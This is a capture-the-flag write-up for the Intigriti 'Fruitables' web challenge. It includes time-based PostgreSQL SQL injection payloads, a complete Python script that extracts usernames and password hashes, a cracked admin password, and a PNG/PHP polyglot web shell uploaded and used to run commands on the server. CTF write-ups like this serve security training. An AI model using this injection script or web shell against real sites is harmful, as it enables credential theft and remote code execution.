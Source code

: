 # Fruitables [77 Solves]

## Description

> A website about fruit? Probably no vulnerabilities there.. Move along everybody!
>
> `https://ctfd-status.ctf.intigriti.io/fruitables`

No attachment.

## Flag

INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}

## Solution

![fruitables](img/fruitables.png)

```console
$ echo https://fruitables-3.ctf.intigriti.io/ | hakrawler | sort -u
https://ajax.googleapis.com/ajax/libs/jquery/3.6.4/jquery.min.js
https://cdn.jsdelivr.net/npm/bootstrap@5.0.0/dist/js/bootstrap.bundle.min.js
https://fruitables-3.ctf.intigriti.io/assets/js/main.js
https://fruitables-3.ctf.intigriti.io/checkout.php
https://fruitables-3.ctf.intigriti.io/contact.php
https://fruitables-3.ctf.intigriti.io/index.php
https://fruitables-3.ctf.intigriti.io/lib/easing/easing.min.js
https://fruitables-3.ctf.intigriti.io/lib/lightbox/js/lightbox.min.js
https://fruitables-3.ctf.intigriti.io/lib/owlcarousel/owl.carousel.min.js
https://fruitables-3.ctf.intigriti.io/lib/waypoints/waypoints.min.js
https://fruitables-3.ctf.intigriti.io/shop-detail.php
https://fruitables-3.ctf.intigriti.io/shop.php
https://htmlcodex.com/contact-form
```

It seems that PHP pages linked from index.php are not vulnerable.
By Directory Busting, account.php is found.

```console
$ ffuf -ic -u https://fruitables-3.ctf.intigriti.io/FUZZ.php -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fs 196
(snip)
.hta                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 306ms]
.htaccess               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 312ms]
.htpasswd               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 336ms]
404                     [Status: 200, Size: 5734, Words: 1377, Lines: 103, Duration: 335ms]
account                 [Status: 200, Size: 7305, Words: 2225, Lines: 134, Duration: 309ms]
cart                    [Status: 200, Size: 14644, Words: 6634, Lines: 253, Duration: 307ms]
checkout                [Status: 200, Size: 18654, Words: 8389, Lines: 294, Duration: 297ms]
contact                 [Status: 200, Size: 8850, Words: 2976, Lines: 157, Duration: 374ms]
index                   [Status: 200, Size: 78961, Words: 38387, Lines: 1086, Duration: 307ms]
shop                    [Status: 200, Size: 33335, Words: 16826, Lines: 437, Duration: 401ms]
testimonial             [Status: 200, Size: 10819, Words: 3850, Lines: 180, Duration: 299ms]
:: Progress: [4734/4734] :: Job [1/1] :: 117 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```

![fruitables_account.png](img/fruitables_account.png)

Tried registration, a requests to POST `/auth/fruitables_register.php` is sent.
Then, it redirects to `/auth/fruitables_login.php?error=Sorry%2C+registration+is+currently+closed%21` URL path.

![fruitables_registration_failed.png](img/fruitables_registration_failed.png)

A single quote `'` is set to username field, it show SQL error.
It seems to have SQL Injection vulnerability.

![sqli_detection.png](img/sqli_detection.png)

It has PostgreSQL server because `'+OR+current_database()=current_database();-` payload is working.

![sqli_dbms_detection.png](img/sqli_dbms_detection.png)

PostgreSQL SQL Injection Time-Based payload for data exfiltration is the following:

```text
' OR cast(chr(65)||(select case when (select ascii(substr(1,1,1)) from users limit 1 offset 0)>40 then pg_sleep(3) else pg_sleep(0) end) as boolean);--
```

Implemented to automate:

<details><summary>sqli.py</summary>

```python
import time
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://fruitables-3.ctf.intigriti.io"
THRETHOLD_SEC = 2


def sqli(payload):
    t1 = time.time()
    res = s.post(
        f"{BASE_URL}/auth/fruitables_login.php",
        data={"username": payload, "password": ""},
    )
    t2 = time.time()

    return t2 - t1 > THRETHOLD_SEC


def binary_search_leftmost(l, r, payload_with_m):
    while l < r:
        m = (l + r) // 2
        print(f"{m}    ", end="\r", flush=True)
        if sqli(payload_with_m.format(m=m)):
            l = m + 1
        else:
            r = m

    # print()
    return l


def main():
    columns = ["username", "password"]

    # record size
    record_size = binary_search_leftmost(
        1,
        100,
        f"' OR cast(chr(65)||(select case when (select count(*) from users)>{{m}} then pg_sleep({THRETHOLD_SEC}) else pg_sleep(0) end) as boolean);--",
    )
    print(f"{record_size=}")

    for record_i in range(record_size):
        for column in columns:

            char_length = binary_search_leftmost(
                0,
                500,
                f"' OR cast(chr(65)||(select case when (select char_length({column}) from users limit 1 offset {record_i})>{{m}} then pg_sleep({THRETHOLD_SEC}) else pg_sleep(0) end) as boolean);--",
            )
            print(f"{char_length=}")

            loot = ""
            for char_i in range(1, char_length + 1):
                c = binary_search_leftmost(
                    0,
                    255,
                    f"' OR cast(chr(65)||(select case when (select ascii(substr({column},{char_i},1)) from users limit 1 offset {record_i})>{{m}} then pg_sleep({THRETHOLD_SEC}) else pg_sleep(0) end) as boolean);--",
                )

                loot += chr(c)
                print(f"{column}: {loot}")

            print(f"{column}: {loot}")


if __name__ == "__main__":
    main()
```

</details>

<details><summary>Output</summary>

```text
record_size=3
char_length=9
username: c
(snip)
username: cryptocat
char_length=53
password: y
(snip)
password: y0/HlOtAkyWN1KzjKOQlge2uyHYEHEfQV3ynFBTV/nvfM5IS/x6Sq
char_length=10
username: i
(snip)
username: invincible
char_length=54
password: y
(snip)
password: y0/avsmtl2dS2XVcRWT6E5OzrnUg8FU1dg6RvYd/9KTmcO0BctXGxa
char_length=11
username: t
(snip)
username: tjfry_admin
char_length=60
password: $
password: $2
password: $2y
(snip)
password: $2y$10$xeRysgjnBo5gR7xm0UnekOabT./PYjZwkb0x1Qw1m1KzhuLmXlG5S
```

</details>

Found `tjfry_admin:$2y$10$xeRysgjnBo5gR7xm0UnekOabT./PYjZwkb0x1Qw1m1KzhuLmXlG5S` credential.
Crack the hashed password, results in `futurama`.
So login with `tjfry_admin:futurama` credential, it redirects Admin Dashboard.

![admin_dashboard.png](img/admin_dashboard.png)

The page has file upload vulnerability.
Create a polyglot PNG file (e.g. PNG Comment is `<?php system($_GET[0]);>?`) and its filename is foobar.png.php.

```bash
convert -size 1x1 xc:blue tmp.png
exiftool -comment='<?php system($_GET[0]);?>' tmp.png
mv tmp.png{,.php}
```

Upload the file.

![file_uploaded.png](img/file_uploaded.png)

Exploit

```console
$ curl -G --data-urlencode 0=id -o- -s https://fruitables-3.ctf.intigriti.io/uploads/a7b9c4c179d3e7c2dfaaf371c6340414.png.php
PNG

IHDR%V cHRMz&u0`:pQ<PLTE{ܙ,bKGD-tIME
                                    0t!tEXtCommentuid=33(www-data) gid=33(www-data) groups=33(www-data)

IDAc`!3IENDB`

$ curl -G --data-urlencode '0=echo; ls -la /' -o- -s https://fruitables-3.ctf.intigriti.io/uploads/a7b9c4c179d3e7c2dfaaf371c6340414.png.php
PNG

IHDR%V cHRMz&u0`:pQ<PLTE{ܙ,bKGD-tIME
                                    0t!tEXtComment
total 8
drwxr-xr-x    1 root root   50 Nov 15 13:42 .
drwxr-xr-x    1 root root   50 Nov 15 13:42 ..
drwxr-xr-x    1 root root   19 Nov 15 13:39 bin
drwxr-xr-x    2 root root    6 Sep 29  2023 boot
drwxr-xr-x    5 root root  360 Nov 15 13:42 dev
drwxr-xr-x    1 root root   19 Nov 15 13:42 etc
-r--r--r--    1 root root   43 Nov 15 13:39 flag_poxm7AQwN77Lj2PU.txt
drwxr-xr-x    2 root root    6 Sep 29  2023 home
drwxr-xr-x    1 root root   45 Nov 21  2023 lib
drwxr-xr-x    2 root root   34 Nov 20  2023 lib64
drwxr-xr-x    2 root root    6 Nov 20  2023 media
drwxr-xr-x    2 root root    6 Nov 20  2023 mnt
drwxr-xr-x    2 root root    6 Nov 20  2023 opt
dr-xr-xr-x 1234 root root    0 Nov 15 13:42 proc
drwx------    1 root root    6 Nov 21  2023 root
drwxr-xr-x    1 root root   58 Nov 15 13:42 run
drwxr-xr-x    1 root root   20 Nov 21  2023 sbin
drwxr-xr-x    2 root root    6 Nov 20  2023 srv
dr-xr-xr-x   13 root root    0 Nov 15 13:42 sys
drwxrwxrwt    1 root root 4096 Nov 17 07:20 tmp
drwxr-xr-x    1 root root   19 Nov 20  2023 usr
drwxr-xr-x    1 root root   79 Nov 21  2023 var

IDAc`!3IENDB`

$ curl -G --data-urlencode '0=echo; cat /flag_poxm7AQwN77Lj2PU.txt' -o- -s https://fruitables-3.ctf.intigriti.io/uploads/a7b9c4c179d3e7c2dfaaf371c6340414.png.php
PNG

IHDR%V cHRMz&u0`:pQ<PLTE{ܙ,bKGD-tIME
                                    0t!tEXtComment
INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}
IDAc`!3IENDB` 
```
